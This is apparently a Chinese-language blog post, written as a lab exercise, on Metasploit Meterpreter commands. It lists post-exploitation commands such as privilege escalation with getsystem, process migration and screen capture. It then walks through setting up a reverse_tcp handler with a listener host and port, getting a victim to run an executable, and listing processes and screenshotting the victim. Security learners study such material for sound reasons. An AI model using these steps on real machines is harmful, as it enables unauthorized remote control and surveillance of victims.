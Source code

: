 ```yaml
---
title: metasploit之meterpreter命令
date: 2021-12-21 12:22:46
tags: msf meterpreter 
---
```


## metasploit之meterpreter命令

### 目的: 了解meterpreter命令

### 原理:  
`ps`         查询当前目标机所有进程
`getpid`       获取当前会话进程
`getuid`       当前用户所用的权限，所在用户组
`sysinfo`      取系统信息
`getsystem`    提升至system最高权限
`shell`      进入cmdshell命令模式
`pwd`       查看当前所在位置
`cat`        查看文本文件
`ipconfig`     查看网络配置信息
`migrate pid`   迁移pid
`screenshot`    截取当前用户屏幕保存到本地

### 过程：

打开终端，运行msf，`use exploit/multi/handler`选择exploit，`set payload windows/meterpreter/reverse_tcp`设置payload，`set LHOST 192.168.1.2`设置监听主机，`set LPORT 11101`设置端口

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/1.PNG)

输入`exploit -j`运行脚本，且在后台监听


靶机双击桌面运行xx.exe，返回kali，已经取得会话

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/2.PNG)

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/3.PNG)

敲击回车，返回msf，执行`sessions`，查看会话，再执行`sessions 1`,进入会话

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/4.PNG)

执行`ps`查看进程

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/5.PNG)

`getuid` 查看权限

`pwd` 查看当前路径

`screentshot`截图

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/6.PNG)

`background`会话转入后台

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/7.PNG)

新建终端，进入/root目录下，查看截图

![](https://gitee.com/oxchang/img-host/raw/master/metasploit%E4%B9%8Bmeterpreter%E5%91%BD%E4%BB%A4/8.PNG)

实验结束
